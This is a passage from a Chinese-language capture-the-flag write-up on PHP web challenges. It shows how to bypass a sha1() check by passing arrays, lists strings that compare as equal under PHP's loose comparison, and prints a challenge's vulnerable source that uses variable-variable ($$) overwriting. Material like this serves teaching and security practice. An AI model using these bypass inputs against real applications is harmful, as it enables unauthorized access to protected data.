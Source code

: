 ```php


?>
```

* sha1 — 计算字符串的 sha1 散列值.  返回 sha1 散列值字符串。  

> sha1()函数无法处理数组类型，将报错并返回false，

所以构造

```
?v2[]=1

# post
v1[]=1
```

这里没有判断两值是否相等，所以也可以传入两个相等的数。

```
?v2=2

v1=2
```

还有几个弱比较相等的字符串

```
aaroZmOk
aaK1STfY
aaO8zKZF
aa3OFF9m
```

## web105~$$变量覆盖

```php
<?php

highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?>
你还想要flag嘛？
```

